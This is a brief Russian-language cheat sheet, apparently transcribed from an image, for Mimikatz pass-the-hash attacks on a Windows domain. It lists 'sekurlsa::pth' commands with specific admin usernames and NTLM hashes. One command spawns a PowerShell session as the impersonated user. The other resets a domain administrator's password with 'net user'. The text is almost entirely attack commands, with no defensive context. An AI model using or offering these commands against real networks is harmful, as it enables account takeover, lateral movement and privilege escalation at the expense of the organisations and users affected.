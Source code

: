Входные данные:
- требует права для фальсификации токена;

## Запускаем удаленный powershell.
sekurlsa::pth /domain:company.ru /user:kstepanovAdm /ntlm:39aced871bfb9485b15c0ddcd3b456f3 /run:"powershell.exe"

## Меняем пароль пользователя в домене. Пароль должен удовлетворять текущей парольной политике!
sekurlsa::pth /domain:company.ru /user:eborisenkoAdm /ntlm:84a09c7fe2da7625051ed8dbae888073 /run:"net user eborisenkoAdm Qwerty15 /domain"

